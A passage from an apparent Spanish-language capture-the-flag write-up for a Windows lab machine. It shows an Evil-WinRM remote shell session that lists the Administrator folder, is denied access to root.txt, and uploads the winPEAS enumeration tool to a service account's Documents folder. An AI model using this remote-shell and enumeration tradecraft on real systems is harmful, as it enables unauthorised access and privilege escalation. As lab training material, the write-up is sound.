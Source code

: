 ```csharp
*Evil-WinRM* PS C:\Users\Administrator> dir

    Directory: C:\Users\Administrator

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-r---        5/20/2021  12:10 PM                3D Objects
d-r---        5/20/2021  12:10 PM                Contacts
d-r---        9/27/2021   4:22 AM                Desktop
d-r---        5/27/2021  12:50 AM                Documents
d-r---        5/26/2021   3:00 AM                Downloads
d-r---        5/20/2021  12:10 PM                Favorites
d-r---        5/20/2021  12:10 PM                Links
d-r---        5/20/2021  12:10 PM                Music
d-r---        5/20/2021  12:10 PM                Pictures
d-r---        5/20/2021  12:10 PM                Saved Games
d-r---        5/20/2021  12:10 PM                Searches
d-r---        5/20/2021  12:10 PM                Videos

*Evil-WinRM* PS C:\Users\Administrator> cd Desktop
*Evil-WinRM* PS C:\Users\Administrator\Desktop> dir

    Directory: C:\Users\Administrator\Desktop

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---        5/19/2022   7:56 AM             34 root.txt

*Evil-WinRM* PS C:\Users\Administrator\Desktop> type root.txt
Access to the path 'C:\Users\Administrator\Desktop\root.txt' is denied.
At line:1 char:1
+ type root.txt
+ ~~~~~~~~~~~~~
    + CategoryInfo          : PermissionDenied: (C:\Users\Administrator\Desktop\root.txt:String) [Get-Content], UnauthorizedAccessException
    + FullyQualifiedErrorId : GetContentReaderUnauthorizedAccessError,Microsoft.PowerShell.Commands.GetContentCommand
*Evil-WinRM* PS C:\Users\Administrator\Desktop>
```

Nos vamos a un directorio como Documents para subir el  [winPeas](https://github.com/carlospolop/PEASS-ng/releases/tag/20220515)   y ejecutarlo para ver que información nos muestra

```csharp
*Evil-WinRM* PS C:\Users\svc-printer\Documents> upload /mnt/angussMoody/Scripts/Windows/winPEASx64.exe .
Info: Uploading /mnt/angussMoody/Scripts/Windows/winPEASx64.exe to .

                                                             
Data: 2581844 bytes of 2581844 bytes copied

Info: Upload successful!
```
